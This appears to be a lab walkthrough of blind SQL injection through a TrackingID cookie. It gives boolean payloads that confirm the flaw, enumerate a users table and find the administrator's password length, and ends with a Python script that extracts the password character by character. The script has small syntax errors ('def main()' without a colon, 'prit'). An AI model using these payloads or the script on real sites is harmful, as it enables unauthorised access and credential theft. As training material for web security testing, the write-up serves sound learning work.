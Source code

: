 

Lab: Blind SQL injection with conditional responses

If the application responds differently in a true use case versus a fale use case, we can use a blind SQLi.

**1) Confirm that the parameter is vulnerable to blind SQLi.**

The Cookie TrackingID looks like it is set a string value. Imagine the value is attached to a request such as the following:
Select tracking-id from tracking-table where trackingID = 'nLiXTfFOQB9PLTyJ'--

If this tracking ID exists the query returns a value such as a Welcome back message.
If this tracking ID doesn't exit the query returns nothing and there is no welcome back message.

This is the basis of how SQL queries can be used to tell us information, even when the output can't be seen. A blind SQLi such as this will use boolean logic in order to determine information.

This input field can be confirmed as a blind injection method by first changing the tracking ID in a query and search for the "welcome back" message.

Since there were no "welcome back" search matches in the 200 response code when the TrackingID was changed from gw7Fyl8B18NpxBmY to ABCDEFGHIJKLMNOP, you can move on to the next step for verifying the blind SQLi.

Now, determine whether the welcome back message can show us true and falses using boolean logic.

This will make our imaginary request look something like:

```select tracking-id from tracking-table where trackingID = 'nLiXTfFOQB9PLTyJ' and 1=1--'```
This true use case should show a "welcome back!" message.
However, since we just see our field being: 
```Cookie: TrackingID=gw7Fyl8B18NpxBmY```
The actual injection will be
' and 1=1--
This is put in after the tracking ID like the following:
```Cookie: TrackingID= gw7Fyl8B18NpxBmY' and 1=1--```
Don't forget to URL encode your injected code using CTRL+u on Windows or cmd+u on iOS.

This query gave us a welcome back message in the 200 response code, so it is showing the true boolean logic correctly. Now let's test it for false boolean logic.

```select tracking-id from tracking-table where trackingID = 'gw7Fyl8B18NpxBmY' and 1=0--```
Since this is a True+False case, the result should be false and there should be no "welcome back!" message.

In the 200 response, no matches were found for searching "welcome back!".

Now we've confirmed that a true statement will show a welcome back message and a false statement will not show a welcome back message.

**2) Confirm that we have a users table.**

For this, our imaginary request will change to the following:

select tracking-id from tracking-table where trackingID = 'gw7Fyl8B18NpxBmY' and (select 'x' from users LIMIT 1)='x'--

**3) Confirm that username adminsitrator exists in the users table.**

```select tracking-id from tracking-table where trackingID = 'gw7Fyl8B18NpxBmY' and (select username from users where username='administrator')='administrator'--```

Received a "welcome back!" message in the 200 response code so an administrator user exists

** 4) Enumerate the password of the administrator user.

First, start with the length of the password. 

```select tracking-id from tracking-table where trackingID = 'gw7Fyl8B18NpxBmY' and (select username from users where username='administrator' and LENGTH(password)>1)='administrator'--```

We can send it to the Intruder. Here we will select just the field we want to change, or iterate, which is the "1" in "LENGTH(password)>1)". Once just the "1" is highlighted, click the "Add Then in the settings, make sure it will increase from 1 to 30 by a step of 1. I chose 30 because passwords usually aren't longer than 24 characters, but I went a little higher just to be sure.

The intruder showed that the welcome back message was displayed up until 20, which means the password length is exactly 20 characters.

Now the intruder can be used to determine each character of the password through iteration just like the above message.
The payload will be slightly altered:
```select tracking-id from tracking-table where trackingID = 'gw7Fyl8B18NpxBmY' and (select substring(password,1,1) from users where username='administrator')='a'--```

No welcome back message, so the first character is not "a". 

Since this will require 2 payloads changing constantly, we'll use a script since I don't currently own the professional version of Burp Suite.

```python
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}

def sqli_password(url):
    password_extracted = ""
    for i in range (1,21):
        for j in range (32,126):
            sqli_payload = "' and (select ascii(substring(password,%s,1)) from users where username='administrator')='%s'--" %(i,j)
            sqli_payload_encoded = urllib.parse.quote(sqli_payload)
            cookies = {'TrackingID': 'NbsQfi7vZr8lVbJt'+sqli_payload_encoded,'session': 'xV5RtywupsY5wOKXzm3ivIh1Oj6Puhgv'}
            r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
            if "Welcome" not in r.text:
                sys.stdout.write('\r'+ password_extracted + chr(j))
                sys.stdout.flush()
            else:
                password_extracted += chr(j)
                sys.stdout.write('\r' + password_extracted)
                sys.stdout.flush()
                break

def main()
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])

    url = sys.argv[1]
    prit ("(+) Retrieving administrator password...")
    sqli_password(url)

if __name__ == "__main__":
    main()
```